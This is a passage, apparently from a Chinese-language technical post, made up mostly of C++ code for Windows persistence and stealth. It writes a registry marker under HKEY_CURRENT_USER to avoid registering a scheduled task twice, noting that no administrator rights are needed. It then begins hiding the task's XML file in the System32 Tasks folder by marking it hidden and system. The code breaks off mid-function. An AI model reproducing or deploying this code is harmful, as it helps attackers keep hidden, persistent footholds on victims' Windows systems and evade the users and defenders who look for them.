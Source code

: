 ```cpp
        return value == 0;
    }
}

```

这里写注册表 防止重复注册

```cpp
bool CheckRegistryForTaskCreation() {
    HKEY hKey;
    DWORD dwDisposition;
    LONG lResult = RegCreateKeyEx(
        HKEY_CURRENT_USER,
        charToLPCWSTR("SOFTWARE\\DXR"),
        0,
        NULL,
        0,
        KEY_ALL_ACCESS,
        NULL,
        &hKey,
        &dwDisposition
    );

    if (lResult != ERROR_SUCCESS) {
        // ShowErrorWithCode("Error creating/opening registry key", lResult);
        return false;
    }

    if (dwDisposition == REG_CREATED_NEW_KEY) {
        DWORD value = 1;
        RegSetValueEx(hKey, charToLPCWSTR("TaskCreated"), 0, REG_DWORD, reinterpret_cast<BYTE*>(&value), sizeof(value));
        RegCloseKey(hKey);
        return true;
    }
    else {
        DWORD value = 0;
        DWORD valueSize = sizeof(value);
        lResult = RegQueryValueEx(hKey, charToLPCWSTR("TaskCreated"), NULL, NULL, reinterpret_cast<BYTE*>(&value), &valueSize);
        RegCloseKey(hKey);
        return value == 0;
    }
}
```

选择的目录是HKEY_CURRENT_USER下的 不需要administrators权限就可以写

### 隐藏计划任务对应xml文件

```cpp
void HideFile()
{

    if (!g_taskName.empty()) {
        std::wstring basePath = TEXT("C:\\Windows\\System32\\Tasks\\");
        std::wstring finalPath = basePath + g_taskName;
        LPCWSTR lpFinalPath = finalPath.c_str();  // 转换为 LPCWSTR

        DWORD currentAttributes = GetFileAttributes(lpFinalPath);

        // 设置文件属性为隐藏和系统文件
        if ((currentAttributes & (FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM)) != (FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM)) {
```